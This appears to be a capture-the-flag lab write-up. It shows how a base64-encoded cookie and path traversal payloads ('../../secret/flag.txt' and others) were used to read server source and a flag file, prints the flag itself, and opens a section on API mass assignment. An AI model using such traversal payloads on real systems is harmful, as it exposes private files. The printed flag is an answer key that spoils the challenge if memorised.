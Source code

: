 # Lab 01

## Simple Encoder

### Vulnerabilities

1. **Information Disclosure**: Cookie contains base64-encoded file path
2. **Path Traversal**: No input validation allows `../` directory traversal

### Attack Steps

1. **Cookie Analysis**: `ZGRwajA0YzM1NWx4bnpydC50eHQ=` → `ddpj04c355lxnzrt.txt`
2. **Source Code Disclosure**: `../../../opt/www/index.php` (base64: `Li4vLi4vLi4vb3B0L3d3dy9pbmRleC5waHA=`) revealed flag location: `/secret/flag.txt`
3. **Flag Retrieval**: `../../secret/flag.txt` (base64: `Li4vLi4vc2VjcmV0L2ZsYWcudHh0`) traverses from `/tmp/php/` to `/secret/flag.txt`

### Flag

**Flag**: fceca90a-3c9a-4b98-8578-16da67370c8e

## SCHOGGI: API Mass Assignment

### Vulnerability
**Mass Assignment**: API endpoints accept more parameters than intended, allowing unauthorized modification of object properties
